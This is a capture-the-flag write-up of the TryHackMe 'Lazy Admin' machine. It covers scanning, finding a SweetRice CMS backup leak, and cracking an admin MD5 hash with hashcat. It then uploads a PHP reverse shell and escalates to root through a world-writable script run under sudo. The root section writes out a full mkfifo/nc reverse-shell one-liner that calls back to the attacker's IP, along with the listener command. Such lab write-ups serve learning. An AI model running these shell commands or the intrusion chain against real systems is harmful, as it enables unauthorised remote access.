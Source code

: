 ```yaml
---
title: Lazy Admin
date: 2022-05-27 17:00:00 +500
categories: [THM, easy machines]
tags: []    # TAG names should always be lowercase
---
```


10.10.74.238

### What is the user flag?

Let's run a quick Nmap scan
```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.74.238
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

going to the page is the default apache webpage, nothing much to see, so let's run a gobuster scan to see if we find any hidden directory.

Im going to use the '-x' flag which adds the extension to the words in the wordlist, but doesn't replace the original words withouth the extension, so naturally it makes the scan slower since it got more words to try, I usually get lucky with only php but if not, you can try with .txt, .pdf, etc. or even .html .htm since some wordlists don't have this extensions by defautl.

```terminal
gobuster dir -u http://10.10.74.238/ -w /usr/share/dirb/wordlists/common.txt -x .php
```

```
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.74.238/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

we found an directory '/content', heading over the page we see that is a page after the installation of SweetRice which looks like is a CMS like wordpress.

I'll do another gobuster scan in the background while I search for exploits for this software.

with searchsploit we can search exploits from the terminal, exploits that we have on our computer.
```terminal
searchsploit sweetrice
```

and there are a few
```
SweetRice 0.5.3 - Remote File Inclusion                         | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                      | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                       | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                         | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                             | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                    | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Executi | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload           | php/webapps/14184.txt
```

but we don't know whats version is it, so we'd be just trying and see if we're lucky. Im going to try enum the webpage if I found something.

going throung the source code, it looks like I found a version, in /content/js/SweetRice.js there is this comment at the start of the code:
```
/**
 * SweetRice javascript function.
 *
 * @package SweetRice
 * @Dashboard core
 * @since 0.5.4
 */
<!--
```

if im not mistaken and that's the version, it's a pretty old one.
the gobuster scan also finished

```
/as                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.74.238/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.74.238/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.74.238/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/js/]
```

*as is a login page

we have the folder attachment that may be the folder were files are uploaded, and we have the "SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload " exploit so i think thats our chance.

after taking a more close look, this doesn't work for us because it uses a plugin 'FCKeditor' which it's not installed here, we can check it going to 'http://10.10.74.238/content/_plugin/'.

then i tried the two exploits above, that didn't worked for me also, then I tried the 'Backup Disclosure' which says that there a directory with a mysql backup, I downloaded looking for credentials or something, and I think I found a user and a password:

'''
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
'''

looks like manager is the admin and his password is that hash, so i use hash-identifier to see what kind of hash is a it's looks like is MD5, now with this let's use hashcat to crack it up.

with the normal mode it did not cracked it, so i'll use the rockyou wordlists.

* -m 0 is the mode for MD5 raw
* -a 0 is to use a wordlist

```terminal
hashcat -m 0 -a 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt
```

and it does crack it to 'Password123', now with this credentials we can access the login page under /content/as. 

my initial thought in the admin panel was upload a revershell, to somewhere or execute it somehow. I first started creating a post and putting the raw code from a php reverseshell and then execute it, but it did't work (also you have to mark the website status as running to see the posts you create), then i tried to upload the shell to the section that said upload files a bit exceptical because i thought of this only going to display the file to download it, but it actually runs it when you click it, so I got a shell!

the php shell: https://raw.githubusercontent.com/jivoi/pentest/master/shell/rshell.php
(change the IP to yours and the port you'd like)
(remeber to have a listener with the reverseshell file port when executing the shell)

under the itguy's home directory is our first flag

> 

### What is the root flag?

Let's do some enumeration on the machine, we have mysql_login.txt with some credentials

```
rice:randompass
```

we have permissions to execute a file in itguy's home directory

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

backup.pl
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

let's see what's copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f
```

it's a bash reverseshell, let's check if we have permissions to write on it

```terminal
ls -la /etc/copy.sh
```

and we have '-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh'
in the third group of permissions 'rwx' all other users can write on it.

so let's change the IP for ours, but nano isn't working, so i'll do it with echo

```terminal
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f" > /etc/copy.sh
```

and now we execute it with sudo, so we'll have a root shell (remember have the listener ready with the correct port, this case 5554)

in your local machine:
```terminal
nc -lvnp 5554
```

in the victims machine:
```terminal
sudo /usr/bin/perl /home/itguy/backup.pl
```

And we got ourselves a root shell! now just go and cat the flag under /root

> 
